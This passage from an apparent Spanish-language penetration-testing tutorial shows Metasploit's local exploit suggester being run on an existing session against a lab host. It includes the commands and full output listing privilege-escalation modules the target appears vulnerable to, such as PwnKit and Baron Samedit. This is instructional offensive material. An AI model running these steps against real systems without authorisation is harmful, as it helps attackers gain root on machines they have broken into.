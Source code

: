 Nos vamos atras con `back` y vamos a utilizar un llamado `Recomendador de exploits`, podremo acceder a el ejecutando lo siguiente:

```shell
use post/multi/recon/local_exploit_suggester
```

Si nosotros hacemos el `show options` para ver sus opciones lo que vemos es que necesita una sesion activa la cual tenemos nosotros en segundo plano.

Por lo que le especificariamos la sesion con el siguiente comando:

```shell
set session 1
```

Y para ejecutar esto pondriamos `exploit` y ya estaria en ejecuccion:

```
[*] 192.168.16.129 - Collecting local exploits for python/linux...
[*] 192.168.16.129 - 196 exploit checks are being tried...
[+] 192.168.16.129 - exploit/linux/local/cve_2021_3493_overlayfs: The target appears to be vulnerable.
[+] 192.168.16.129 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.
[+] 192.168.16.129 - exploit/linux/local/cve_2022_0995_watch_queue: The target appears to be vulnerable.
[+] 192.168.16.129 - exploit/linux/local/docker_daemon_privilege_escalation: The target is vulnerable.
[+] 192.168.16.129 - exploit/linux/local/overlayfs_priv_esc: The target appears to be vulnerable.
[+] 192.168.16.129 - exploit/linux/local/pkexec: The service is running, but could not be validated.
[+] 192.168.16.129 - exploit/linux/local/ptrace_traceme_pkexec_helper: The target appears to be vulnerable.
[+] 192.168.16.129 - exploit/linux/local/su_login: The target appears to be vulnerable.
[+] 192.168.16.129 - exploit/linux/local/sudo_baron_samedit: The target appears to be vulnerable. sudo 1.8.9.5 is a vulnerable build.
[*] Running check method for exploit 69 / 69
[*] 192.168.16.129 - Valid modules for session 1:
============================

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 3   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 4   exploit/linux/local/docker_daemon_privilege_escalation              Yes                      The target is vulnerable.
 5   exploit/linux/local/overlayfs_priv_esc                              Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 7   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.
 8   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 9   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.9.5 is a vulnerable build.
```
